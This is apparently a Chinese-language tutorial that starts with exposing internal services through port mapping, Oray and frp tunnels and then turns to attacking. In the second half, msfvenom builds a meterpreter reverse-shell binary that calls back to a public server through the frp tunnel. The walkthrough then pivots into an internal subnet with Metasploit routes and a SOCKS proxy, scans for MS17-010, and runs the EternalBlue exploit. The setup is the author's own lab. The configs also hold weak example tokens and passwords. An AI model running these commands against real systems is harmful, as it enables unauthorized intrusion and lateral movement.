外网访问内网服务：


方法一：首先有公网ip

查看路由器WANIP是否与地址https://www.ip138.com/查询的公网ip是否一致,如果一致则有，否则，打电话给运营商，申请公网ip


路由器配置：端口映射，通过公网ip+port即可访问，内网主机：192.168.1.53，内网端口：80，外网端口：9000




方法二：无公网ip利用花生壳


注册域名：https://console.hsk.oray.com/domain



搜索：guoguogewangzi，查看域名列表，点击立即注册




下载客户端：https://hsk.oray.com/download/，选择对应平台，本次在kali上，选择Ubuntu




kali上安装花生壳客户端：

┌──(kali㉿kali)-[~]
└─$ dpkg -i phddns_5_1_amd64.deb




激活，使用SN和密码admin登录管理地址：http://b.oray.com，然后通过微信扫码进行账号绑定和激活即可



添加映射:https://console.hsk.oray.com/forward


应用名称：kali-web

HTTP协议

外网域名：guoguogewangzi.yicp.fun

内网主机：192.168.111.132

内网端口：80




kali开启apache2服务

┌──(kali㉿kali)-[~]
└─$ systemctl start apache2 

┌──(kali㉿kali)-[~]
└─$ systemctl status apache2




访问地址：http://guoguogewangzi.yicp.fun/，成功访问




方法三：使用frp搭建内网穿透服务器







中文文档地址：https://gofrp.org/docs/

github下载地址：https://github.com/fatedier/frp/releases


下载frp:



```shell
[root@VM-0-10-centos home]# tar zxvf frp_0.37.1_linux_amd64.tar.gz
frp_0.37.1_linux_amd64/
frp_0.37.1_linux_amd64/systemd/
frp_0.37.1_linux_amd64/systemd/frpc.service
frp_0.37.1_linux_amd64/systemd/frpc@.service
frp_0.37.1_linux_amd64/systemd/frps@.service
frp_0.37.1_linux_amd64/systemd/frps.service
frp_0.37.1_linux_amd64/frps_full.ini
frp_0.37.1_linux_amd64/LICENSE
frp_0.37.1_linux_amd64/frpc
frp_0.37.1_linux_amd64/frpc_full.ini
frp_0.37.1_linux_amd64/frpc.ini
frp_0.37.1_linux_amd64/frps.ini
frp_0.37.1_linux_amd64/frps
[root@VM-0-10-centos home]# cd frp_0.37.1_linux_amd64/
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# ll
total 23984
-rwxr-xr-x 1 1001 121 10579968 Aug  3 23:22 frpc
-rw-r--r-- 1 1001 121     9503 Aug  3 23:25 frpc_full.ini
-rw-r--r-- 1 1001 121      126 Aug  3 23:25 frpc.ini
-rwxr-xr-x 1 1001 121 13934592 Aug  3 23:22 frps
-rw-r--r-- 1 1001 121     5010 Aug  3 23:25 frps_full.ini
-rw-r--r-- 1 1001 121       26 Aug  3 23:25 frps.ini
-rw-r--r-- 1 1001 121    11358 Aug  3 23:25 LICENSE
drwxr-xr-x 2 1001 121     4096 Aug  3 23:25 systemd
[root@VM-0-10-centos frp_0.37.1_linux_amd64]#
```


解释：

frps：服务端

frpc：客户端

frpc_full.ini：客户端完整配置文件

frpc.ini：客户端简易配置文件

frps_full.ini：服务端完整配置文件

frps.ini：服务端简易配置文件


启动frp服务端

```shell
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# cat frps.ini
```




kali机器修改frp客户端配置文件：frpc.ini

```shell
┌──(kali㉿kali)-[~]
└─$ tar -zxvf frp_0.37.1_linux_amd64.tar.gz
frp_0.37.1_linux_amd64/
frp_0.37.1_linux_amd64/systemd/
frp_0.37.1_linux_amd64/systemd/frpc.service
frp_0.37.1_linux_amd64/systemd/frpc@.service
frp_0.37.1_linux_amd64/systemd/frps@.service
frp_0.37.1_linux_amd64/systemd/frps.service
frp_0.37.1_linux_amd64/frps_full.ini
frp_0.37.1_linux_amd64/LICENSE
frp_0.37.1_linux_amd64/frpc
frp_0.37.1_linux_amd64/frpc_full.ini
frp_0.37.1_linux_amd64/frpc.ini
frp_0.37.1_linux_amd64/frps.ini
frp_0.37.1_linux_amd64/frps

┌──(kali㉿kali)-[~]
└─$ cd frp_0.37.1_linux_amd64

┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ll
总用量 23984
-rwxr-xr-x 1 kali kali 10579968  8月  3 11:22 frpc
-rw-r--r-- 1 kali kali     9503  8月  3 11:25 frpc_full.ini
-rw-r--r-- 1 kali kali      126  8月  3 11:25 frpc.ini
-rwxr-xr-x 1 kali kali 13934592  8月  3 11:22 frps
-rw-r--r-- 1 kali kali     5010  8月  3 11:25 frps_full.ini
-rw-r--r-- 1 kali kali       26  8月  3 11:25 frps.ini
-rw-r--r-- 1 kali kali    11358  8月  3 11:25 LICENSE
drwxr-xr-x 2 kali kali     4096  8月  3 11:25 systemd
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ vi frpc.ini

┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ cat frpc.ini
[common]                                  #此项相当于与服务器的7000端口建立了隧道
server_addr = 175.24.115.4                #frp服务器ip
server_port = 7000                       #frp服务器端口

[ssh]
type = tcp
local_ip = 127.0.0.1                  #内网ip，可以任意
local_port = 22                       #内网端口，可以windows的3389
remote_port = 6000                    

┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$
```


启动frpc客户端

```
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ./frpc -c frpc.ini
```




连接公网服务器：175.24.115.4:6000端口，成功登录，frp服务搭建成功

```
/home/mobaxterm:ssh kali@175.24.115.4 -p6000
kali@175.24.115.4's password:                      #密码kali
Linux kali 5.9.0-kali1-amd64 #1 SMP Debian 5.9.1-1kali2 (2020-10-29) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 12 04:11:08 2021 from 192.168.111.1
┏━(Message from Kali developers)
┃
┃ We have kept /usr/bin/python pointing to Python 2 for backwards
┃ compatibility. Learn how to change this and avoid this message:
┃ ⇒ https://www.kali.org/docs/general-use/python3-transition/
┃
┗━(Run “touch ~/.hushlogin” to hide this message)
┌──(kali㉿kali)-[~]
└─$ 
```




修改frp服务端配置文件：`vi frps.ini`，添加`web服务`和`token`：

```shell
[common]
bind_port = 7000
vhost_http_port = 80
dashboard_port = 7500
dashboard_user = admin
dashboard_pwd = admin
authentication_method = token        #客户端连接时需要token验证
token = xuegod123456                  #token值
```

保存退出并启动frps服务端：

```
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# ./frps -c frps.ini
```




修改frp客户端配置文件：`vi frpc.ini`，添`token`，以及`[web]`,如下：

```
[common]
server_addr = 175.24.115.4
server_port = 7000
token = xuegod123456

[ssh]                       #本地的22端口映射到公网服务器的6000端口
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6000


[web]                    #本地的80端口映射到公网服务器的cloud.guoguogewangzi.com域名
type = http
local_port = 80
custom_domains = cloud.guoguogewangzi.com
```

保存退出并启动frpc客户端：

```
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ./frpc -c frpc.ini
```




修改/etc/hosts文件，添加`cloud.guoguogewangzi.com`域名解析记录，即可通过域名访问到kali的web服务

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/hosts
[sudo] kali 的密码：

添加如下一行：
192.168.111.132 cloud.guoguogewangzi.com
```




成功访问：http://cloud.guoguogewangzi.com/




其他：域名解析控制台，可以看到：cloud.guoguogewangzi.com，解析为ip：175.24.115.4




frps服务端frps.ini文件配置：

```
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# cat frps.ini
[common]
bind_port = 7000
authentication_method = token
token = xuegod123456
[root@VM-0-10-centos frp_0.37.1_linux_amd64]#
```

启动frps服务端：

```
[root@VM-0-10-centos frp_0.37.1_linux_amd64]# ./frps -c frps.ini
```




frpc客户端frpc.ini文件配置：

```shell
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ cat  frpc.ini
[common]
server_addr = 175.24.115.4
server_port = 7000
token = xuegod123456

[msf]								#本地的4444端口映射公网服务器的8000端口
type = tcp
local_port = 4444                  
local_ip = 192.168.111.132
remote_port = 8000

┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$
```

启动frpc客户端:

```shell
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ ./frpc -c frpc.ini
```




生成二进制文件

```shell
┌──(kali㉿kali)-[~]
└─$ msfvenom -a x64  --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=175.24.115.4 LPORT=8000 -b "\x00" -f elf -o xuegod
```




启动msf，开启监听端口

```shell
┌──(kali㉿kali)-[/var/www/html]
└─$ sudo msfdb run
```

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.111.132
LHOST => 192.168.111.132
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.111.132:4444


```


公网服务器运行样本xuegod

```
[root@VM-0-10-centos home]# chmod +x xuegod
[root@VM-0-10-centos home]# ./xuegod
```


成功拿到公网服务器shell







环境准备：kali，Centos，Windows7

Centos网卡设置：

nat模式和仅主机模式(和nat差不多，就是不能联网，内网模式)




外部网络ip：192.168.111.138，内部ip:192.168.201.128




Window7网卡设置：

仅主机模式：



内部网络ip:192.168.201.129




环境准备结束！


首先拿到Centos:192.168.111.138系统权限






`arp`查看缓存表，可知与该主机通信的ip




`route`查看路由表，可知该主机存在那些网段：




建立路由，`route add 192.168.201.0 255.255.255.0 2`,会话id:2

```shell
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  2         meterpreter x64/linux  root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0) @ localhost.local...  192.168.111.132:4444 -> 192.168.111.132:52278 (::1)

msf6 exploit(multi/handler) > route add 192.168.201.0 255.255.255.0 2
[*] Route added
msf6 exploit(multi/handler) >

```




路由建立成功，查看路由表：192.168.201.0 网段(目标机器的内网)的网关为Session 2




探测内网主机存活,可以看到`192.168.201.128`内网主机被探测出来

```
msf6 auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/discovery/arp_sweep
msf6 auxiliary(scanner/discovery/arp_sweep) > set RHOST 192.168.201.0/24
RHOST => 192.168.201.0/24
msf6 auxiliary(scanner/discovery/arp_sweep) > run

[+] 192.168.111.132 appears to be up (VMware, Inc.).
[+] 192.168.201.128 appears to be up (VMware, Inc.).
[+] 192.168.111.132 appears to be up (VMware, Inc.).
```




添加代理：`use auxiliary/server/socks_proxy`

```shell
msf6 auxiliary(scanner/discovery/arp_sweep) > use auxiliary/server/socks_proxy    #使用代理模块
msf6 auxiliary(server/socks_proxy) > sessions       #确保会话

Active sessions
===============

  Id  Name  Type                   Information                                                                       Connection
  --  ----  ----                   -----------                                                                       ----------
  2         meterpreter x64/linux  root @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0) @ localhost.local...  192.168.111.132:4444 -> 192.168.111.132:52278 (::1)

msf6 auxiliary(server/socks_proxy) > show options        #查看详情

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > run               #启动代理
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) >

```

kali主机上修改：/etc/proxychains4.conf

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf

改为；
strict_chain严格模式，最后一行添加代理（本机）
socks5 192.168.111.132 1080           
```


主机存活扫描

```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap 192.168.201.129-130
```




扫描漏洞，存在永恒之蓝漏洞

```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap -Pn -sT -p 445 --script=smb-vuln-ms17-010.nse 192.168.201.129                           
```




漏洞利用:

代理启动msfdb

```
┌──(kali㉿kali)-[~]
└─$ sudo proxychains msfdb run
```


MSF自带代理不稳定，看到socket error or timeout!就停了，多试几次，若是重复无果，可放弃使用MSF代理，选择Frp搭建内网代理

```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.129
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 9988
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```







